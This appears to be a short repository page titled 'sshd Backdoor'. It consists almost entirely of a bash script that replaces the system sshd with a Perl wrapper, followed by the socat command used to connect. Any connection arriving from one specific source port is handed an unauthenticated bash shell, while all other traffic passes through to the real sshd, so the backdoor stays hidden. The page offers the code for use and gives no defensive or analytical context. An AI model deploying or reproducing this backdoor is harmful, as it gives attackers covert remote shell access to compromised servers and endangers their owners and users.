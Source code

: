 # sshd Backdoor

```
#!/bin/bash

#sshd
#-------------------------
mv /usr/sbin/sshd /usr/bin/
touch /usr/sbin/sshd

cat <<EOF >> /usr/sbin/sshd
#!/usr/bin/perl
exec"/bin/bash"if(getpeername(STDIN)=~/^..LF/);
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
EOF

chmod +x /usr/sbin/sshd
service sshd restart

#usage
#socat STDIO TCP4:<target ip>:22,sourceport=19526
```

#### Connect to the backdoor by running

```
socat STDIO TCP4:<target ip>:22,sourceport=19526
```
